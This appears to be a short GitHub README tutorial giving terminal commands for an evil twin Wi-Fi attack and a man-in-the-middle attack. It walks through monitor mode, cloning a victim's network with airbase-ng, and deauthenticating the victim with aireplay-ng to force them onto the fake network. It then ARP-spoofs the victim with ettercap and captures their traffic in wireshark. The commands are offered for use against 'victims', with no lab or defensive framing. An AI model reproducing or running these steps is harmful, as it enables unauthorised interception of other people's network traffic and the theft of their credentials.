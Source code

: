 ## IN THIS TUTORIAL YOU WILL LEARN HOW TO CREATE A EVIL TWIN ATTACK AND PERFORM MITM ATTACK.


### TERMINAL 1 :

Step 1 :->  service apache2 start

Step 2 :->  ifconfig wlan1 down (or the network adapter you are using)

Step 3 :->  iwconfig wla1 mode monitor

Step 4 :->  ifconfig wlan1 up

Step 5 :->  airodump-ng wlan1

Step 6 :->  ctrl + c 

Step 7 :->  airodump-ng --bssid 00:00:00:00:00:00 -c 0 wlan1 [bssid = vicitims network bssid  -c 0 = channel on which the victim network 
is on]

Step 8 :->  now copy the station id of the victims device (mac address)


### TERMINAL 2 :  TO CREATE A FAKE WIFI 

Step 1 :->  sudo airbase-ng -e "wifiname" -a 00:00:00:00:00:00 -c 0 wlan1   ["wifiname" = victims wifi name which we are copying and 
creating a fake wifi]




### TERMINAL 3 :  to remove the victim from his own wifi and force him to join our fake wifi



Step 1 :->  sudo aireplay-ng --deauth 0 -a 00:00:00:00:00:00 -c 00:00:00:00:00:00 wlan1   [-a bssid = victims wifi, -c bssid = vicitims device mac address]




# ONCE WE HAVE THE VICTIM ON THE FAKE NETWORK THEN WE CAN PERFORM MAN IN THE MIDDLE ATTACK.

STEP 1 :->  sudo nmap -Sn 192.168.01/24 (192.168.0.1 = ROUTER'S IP)

STEP 2 :->  sudo ettercap -T -S -i wlan0 -M arp:remote /192.168.0.1// /192.168.0.0//   [192.168.0.1=router's ip, 192.168.0.0=victim's ip]



### NEW TERMINAL 



STEP 1 :->  sudo wireshark   [you can see all the traffic between the router and the victim]
 














____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________


